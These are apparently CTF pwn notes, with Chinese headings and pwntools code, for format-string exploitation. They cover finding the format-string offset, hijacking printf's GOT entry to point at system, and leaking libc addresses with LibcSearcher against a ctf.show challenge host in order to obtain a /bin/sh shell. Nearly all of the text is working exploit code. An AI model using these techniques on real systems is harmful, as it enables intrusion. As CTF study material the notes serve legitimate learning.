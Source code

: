 ## 自动获取offset偏移值

```python
def exec_fmt(payload):
		io.sendline(payload)
		info = io.recv()
		return info
auto = FmtStr(exec_fmt)
offset = auto.offset
```

# Got劫持

```python
from pwn import *
context.log_level = 'debug'
#io = process('./fmt')
io = remote('127.0.0.1',10000)
elf = ELF('./pwn')
offset = 6
printf_got = elf.got['printf']
system_plt = elf.plt['system']
payload = fmtstr_payload(offset,{printf_got:system_plt})
io.sendline(payload)
io.recv()
io.sendline('/bin/sh\x00')
io.interactive()
```

```python
from pwn import *
import warnings
from LibcSearcher import *
import re

warnings.filterwarnings("ignore")
# 修改context上下文
context(os='linux', arch='i386', log_level='debug',endian='little')
elf = ELF("./pwn")
printf_got = elf.got['printf']
printf_plt = elf.plt['printf']
main_addr = elf.symbols['main']

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']

def forc():
    # sh = process('./pwn')
    sh =  remote('pwn.challenge.ctf.show',28157)
    payload = p32(puts_got)+b"%6$s"
    sh.recvuntil("**                           \n")
    sh.send(payload)

    puts_addr = u32(sh.recvuntil('\xf7')[-4:])

    libc = LibcSearcher("puts",puts_addr)
    libc_base = puts_addr - libc.dump("puts")   
    system_addr = libc_base + libc.dump("system")
    binsh = libc_base + libc.dump("str_bin_sh")

    payload2 = fmtstr_payload(6,{printf_got:system_addr})
    sh.sendline(payload2)

    sh.sendline("/bin/sh\x00")
```